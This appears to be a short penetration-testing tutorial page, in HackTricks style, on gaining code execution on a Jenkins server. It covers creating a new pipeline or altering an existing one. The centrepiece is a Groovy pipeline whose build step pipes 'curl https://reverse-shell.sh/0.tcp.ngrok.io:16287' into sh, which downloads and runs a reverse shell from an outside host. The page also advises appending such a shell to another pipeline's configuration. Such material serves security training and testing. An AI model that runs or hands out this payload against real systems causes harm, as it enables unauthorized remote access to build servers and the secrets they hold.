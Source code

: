 # Jenkins RCE Creating/Modifying Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creating a new Pipeline

In "New Item" (accessible in `/view/all/newJob`) select **Pipeline:**

![](<../../images/image (235).png>)

In the **Pipeline section** write the **reverse shell**:

![](<../../images/image (285).png>)

```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                sh '''
                    curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
                '''
            }
        }
    }
}
```

Finally click on **Save**, and **Build Now** and the pipeline will be executed:

![](<../../images/image (228).png>)

## Modifying a Pipeline

If you can access the configuration file of some pipeline configured you could just **modify it appending your reverse shell** and then execute it or wait until it gets executed.

{{#include ../../banners/hacktricks-training.md}}



